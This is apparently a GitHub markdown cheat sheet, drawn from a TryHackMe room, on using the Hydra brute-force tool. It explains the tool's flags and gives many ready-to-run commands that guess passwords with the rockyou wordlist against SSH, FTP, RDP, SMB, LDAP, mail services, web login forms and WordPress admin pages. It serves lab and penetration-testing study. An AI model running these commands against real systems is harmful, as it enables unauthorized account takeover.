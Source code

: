 ### Hydra User Guide
- All credit goes to: DarkStar7471 for his THM room located here : https://tryhackme.com/room/hydra

- Hydra is a brute force online password cracking tool, which can be used with a variety of protocols
- Protocols that hydra can work with:
Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, 
HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, 
POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, 
VMware-Auth, VNC and XMPP.
- Official kali page:
- https://en.kali.tools/?p=220
- Download it (default on kali):
- https://github.com/vanhauser-thc/thc-hydra
#### Hydra Syntax
- The correct hydra syntax is depended upon the service you are going after.  For example if we want to hit ftp we should use:
#### FTP
````
hydra -l user -P passlist.txt ftp://10.10.10.10
````
#### SSH
````
hydra -l <username> -P /usr/share/wordlists/rockyou.txt 10.10.10.10. -t 4 ssh
````
- `-l` is to specify the username 
- `P` is to specify a password list
- `-t` is to specify the number of threads to run hydra with.
- Note: Hydra recommends no more than 4 threads, however you can run it faster with `-t 16`.
#### POST Web Form
- Hydra can be used to brute force web logins as well.
- Step 1: Determine the request made to the form (POST/GET)
- Identify this in the network tab (developer tools), view the source code, or use Burp Suite.
- Syntax:
````
hydra -l <username> -P /usr/share/wordlists/rockyou.txt 10.10.211.150 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -vV
````
- `http-post-form` specifies the type of form
- `/login url` the login page URL i.e. `http://dont-brute-force-me.com/login.php`
- `:username` the form field name for the username
- `^USER^` this tells hydra to use the username you specified
- `password` the form field name for the password
- `^PASS^` the password list specified in the command 
- `Login` the failed login message
- `Login failed` is the login failure message that the form specifies 
- `F=inncorrect` the word that appears on the page if the login fails
- `-vV` specifies very verbose output 
- Hydra non default ssh port:
````
hydra -t 16 -l sam -P /usr/share/wordlists/rockyou.txt 10.10.80.187 ssh -s 4567 -vV
````
#### Example Syntax
````
hydra -P password-file.txt -v $ip snmp	Hydra brute force against SNMP
hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp	Hydra FTP known user and rockyou password list
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh	Hydra SSH using list of users and passwords
hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh	Hydra SSH using a known password and a username list
hydra $ip -s 22 ssh -l -P big_wordlist.txt	Hydra SSH Against Known username on port 22
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V	Hydra POP3 Brute Force
hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V	Hydra SMTP Brute Force
hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin	Hydra attack http get 401 login with a dictionary
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip	Hydra attack Windows Remote Desktop with rockyou
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb	Hydra brute force SMB user with rockyou:
hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'	Hydra brute force a Wordpress admin login
hydra -L usernames.txt -P passwords.txt $ip smb -V -f	SMB Brute Forcing
hydra -L users.txt -P passwords.txt $ip ldap2 -V -f	LDAP Brute Forcing
````
#### Additional Syntax Formats
````
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"
sudo hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.211.150 http-post-form "/login:username=molly&password=^PASS^:F=incorrect" -V
sudo hydra 10.0.0.1 http-post-form "/admin.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid" -P /usr/share/wordlists/rockyou.txt -l admin
hydra -l lazie -P /opt/rockyou.txt imap://10.10.251.142 -vV
````










